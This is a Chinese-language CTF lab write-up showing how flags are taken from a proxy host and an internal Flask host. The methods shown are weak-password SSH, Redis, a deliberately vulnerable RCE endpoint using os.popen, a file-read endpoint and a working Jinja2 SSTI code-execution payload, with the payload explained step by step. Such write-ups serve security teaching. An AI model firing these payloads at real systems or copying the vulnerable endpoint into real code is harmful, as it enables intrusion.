### 攻击机攻入内网机找flag完整复现

#### 代理机flag的获取

##### 通过弱口令SSH获取flag

我们首先登录账户(登录操作见上)

直接输入密码读取flag内容：

```bash
ssh student@192.168.2.10 "cat /home/student/proxy_flag.txt"
```



##### 通过Redis存储和获取flag

我们也可以通过Redis获取flag：

```bash
redis-cli -h 127.0.0.1 get proxy_flag  
```



我主要使用了指令：

```bash
cat /home/student/proxy_flag.txt | redis-cli -h 127.0.0.1 -x set proxy_flag
```

其中“redis-cli -h 127.0.0.1 -x set proxy_flag”这条指令将flag的内容设置为了proxy_flag键的值，设置了Redis键值对，这样我们就可以连接本地Redis服务器直接获取flag的内容啦！

#### 内网机flag的获取

```bash
curl -X POST -d "name=%7B%7B7*7%7D%7D" http://192.168.2.10:8080/ssti
```



我们可以通过RCE端点尝试：

我在app.py中，直接写了一个RCE端点：

```python
# RCE - 直接命令执行漏洞
@app.route("/rce")
def rce():
    cmd = request.args.get("cmd")
    return os.popen(cmd).read()  # 这里直接执行系统命令！
```

所以我们也可以通过RCE直接读取flag，我先在这里解释一下RCE：

RCE即远程代码执行，攻击者能够在目标系统上远程执行任意代码/命令，我写的那个RCE漏洞使得攻击者可以直接执行系统命令并返回结果：

```bash
curl "http://192.168.2.10:8080/rce?cmd=cat%20/home/kali/vuln_flask/flag.txt"
```



还可以通过文件读取：

```bash
curl "http://192.168.2.10:8080/read?file=/home/kali/vuln_flask/flag.txt"
```



也可以尝试SSTI端点获取：

```bash
curl -X POST -d "name=%7B%7Burl_for.__globals__.__builtins__%5B%27eval%27%5D%28%22__import__%28%27os%27%29.popen%28%27cat%20%2Fhome%2Fkali%2Fvuln_flask%2Fflag.txt%27%29.read%28%29%22%29%7D%7D" http://192.168.2.10:8080/ssti
<h1>moectf{ssti_success_2025}
 is sb</h1>
```



前面几个求flag都好说，我主要想聊聊最后一个通过SSTI获取的这个方法，我为了配出来正确的payload真的是和ai疯狂调试，还是对这个漏洞感觉挺神奇的吧，就把这个漏洞的相关解释部分放这里了：

首先，这是我URL编码后的payload：

```bash
name=%7B%7Burl_for.__globals__.__builtins__%5B%27eval%27%5D%28%22__import__%28%27os%27%29.popen%28%27cat%20%2Fhome%2Fkali%2Fvuln_flask%2Fflag.txt%27%29.read%28%29%22%29%7D%7D
```

经过URL解码，哦我还是在这里解释一下URL解码吧先：

URL解码是将URL编码的字符串转换回原始字符的过程，为了安全的传输字符，有些字符在URL中不允许直接出现，这就使得URL中有些字符具有特殊的含义，URL编码就是将每个特殊字符转换为`%`后跟两个十六进制数字

python里面也有专门的URL编码解码的库函数，我们可以在python里面试试：

```python
from urllib.parse import unquote

encoded = "%7B%7Burl_for.__globals__.__builtins__%5B%27eval%27%5D%28%22__import__%28%27os%27%29.popen%28%27cat%20%2Fhome%2Fkali%2Fvuln_flask%2Fflag.txt%27%29.read%28%29%22%29%7D%7D"
decoded = unquote(encoded)
print(decoded)
```

运行结果如下：


经过URL解码，我的payload变成了：

```bash
name={{url_for.__globals__.__builtins__['eval']("__import__('os').popen('cat /home/kali/vuln_flask/flag.txt').read()")}}
```

所以我们实际上执行的SSTI代码应该是：

```python
{{url_for.__globals__.__builtins__['eval']("__import__('os').popen('cat /home/kali/vuln_flask/flag.txt').read()")}}
```

其中，{{}}是基础的SSTI结构，“url_for._globals___  ”是用来访问url_for函数的全局命名空间，“builtins_['eval']”是为了获取evel函数，最后我们读取flag.txt的内容获取flag。
